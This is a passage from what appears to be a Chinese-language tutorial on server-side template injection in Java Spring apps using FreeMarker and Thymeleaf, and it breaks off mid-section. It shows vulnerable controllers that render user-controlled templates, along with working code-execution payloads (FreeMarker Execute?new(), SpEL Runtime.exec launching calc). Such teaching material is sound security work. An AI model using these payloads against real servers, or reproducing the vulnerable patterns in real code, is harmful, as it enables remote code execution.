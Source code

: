 ### API函数
value?api 提供对 value 的 API（通常是 Java API）的访问，例如 value?api.someJavaMethod() 或 value?api.someBeanProperty。可通过 getClassLoader获取类加载器从而加载恶意类，或者也可以通过 getResource来实现任意文件读取。  

但是，当api_builtin_enabled为true时才可使用api函数，而该配置在2.3.22版本之后默认为false。
### 模板注入
当使用Template.process渲染模板文件，但内容可控时  
```java
    @RequestMapping("/customTemplate1")
    public String freemarkerCustomTemplate() throws IOException, TemplateException {
        Configuration cfg = new Configuration(Configuration.VERSION_2_3_22);
        freemarker.template.Template temp = cfg.getTemplate("index.ftl");
        StringWriter w = new StringWriter();
        temp.process(new HashMap<>(),w);
        return w.toString();
    }
```
index.ftl
```java
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc")}
```
![](img/16-04-34.png)  
使用StringTemplateLoader动态创建模板进行渲染，其中模板字符串可控。  
```java
    @RequestMapping("/customTemplate1")
    public String freemarkerTemplate(@RequestParam String template) throws IOException, TemplateException {
        Configuration cfg = new Configuration(Configuration.VERSION_2_3_22);
        StringTemplateLoader stringTemplateLoader = new StringTemplateLoader();
        stringTemplateLoader.putTemplate("index",template);
        cfg.setTemplateLoader(stringTemplateLoader);
        freemarker.template.Template temp = cfg.getTemplate("index");
        StringWriter w = new StringWriter();
        temp.process(new HashMap<>(),w);
        return w.toString();
    }
```
![](img/16-10-03.png)
## Thymeleaf
Thymeleaf是Spring官方推荐的模板引擎，主要是其渲染过程中在${xx}中的内容可执行SPEL表达式。Thymeleaf的模板注入分以下几种场景。
### 模板内容可控
直接执行SPEL表达式即可。
```java
<span th:text="${T(java.lang.Runtime).getRuntime().exec('calc.exe')}"></span>
```
```java
@RequestMapping("/template3")
    public String template(Model model, @RequestParam String name){
        model.addAttribute("name",name);
        return "index";
    }
```
index.html  
```html
<span th:text="'Hi '+${name}"></span>
<span th:text="${T(java.lang.Runtime).getRuntime().exec('calc.exe')}"></span>
```
### Return内容可控
如果return 内容可控，那么可以直接在return里面注入SPEL表达式，Thymeleaf会直接将该内容进行渲染。
```java
    @RequestMapping("/template4")
```
